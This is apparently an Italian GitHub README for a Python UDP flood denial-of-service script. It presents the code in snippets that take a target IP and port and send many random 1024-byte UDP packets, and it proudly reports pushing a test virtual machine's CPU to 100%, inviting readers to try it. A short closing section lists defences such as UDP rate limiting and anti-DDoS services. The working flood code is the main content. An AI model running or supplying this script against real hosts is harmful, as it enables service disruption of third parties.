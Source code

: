 # **UDP FLOOD**
<p> UDP FLOOD è un tipo di attacco DoS che permette al malintenzionato di attaccare una
macchina tramite il protocollo UDP. L’obiettivo è sovraccaricare la macchina target
impedendo a quest’ultima di gestire tutti i dati in entrata  </p>

## Indice 📘
1. [Codice](#codice)
2. [Prestazioni](#prestazioni)
3. [Prevenzioni](#prevenzioni)

## **Codice👇🏼**
Importazione librerie
```bash
import socket
import random
```
Variabili
```bash
IP = input("Ip macchina target: ")
Porta = int(input("Porta macchina target: "))
npacchetti = int(input("Numero pacchetti: "))
```
Socket UDP
```bash
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
dimensione_pacchetto = 1024 #numero di byte
```
Funzione
```bash
def generazione_pack(dimensione):
  return bytes(random.getrandbits(8) for _ in range (dimensione))
```
Print
```bash
print(f" Sto inviando i pacchetti a {IP} sulla porta {Porta}")
```
Ciclo
```bash
for _ in range(npacchetti):
  sock.sendto(generazione_pack(dimensione_pacchetto), (IP, Porta))
```
Print
```bash
print("Pacchetto inviato")
```
Connessione chiusa
```bash
sock.close
```

## **Prestazioni💥**
<p>Questo screenshot ⬇️ mostra la fase di avvio dello script nei confronti della macchina target.
La CPU è riuscita a toccare il 100% di utilizzo senza la libreria threading che avrebbe portato
al crash la macchina virtuale🙃 </p> 

[Immagine](https://github.com/OctavianIT/Octavian_Ceresau_UdpFloodpy/blob/main/Octavian_Ceresau_UdpFlood/UdpFlood/Codice/prest.png)
<p>Provare per credere😅</p>

## **Prevenzioni**🛡️
#### **Filtraggio traffico UDP**
Configurare il firewall per limitare il traffico UDP su porte non necessarie ed impostare un limitatore di traffico per limitare
la quantità di pacchetti UDP in entrata

#### Protezione Anti-DDoS
Usare servizi esterni di mitigazione come: Cloudflare, AWS Shield o Google Cloud Armor
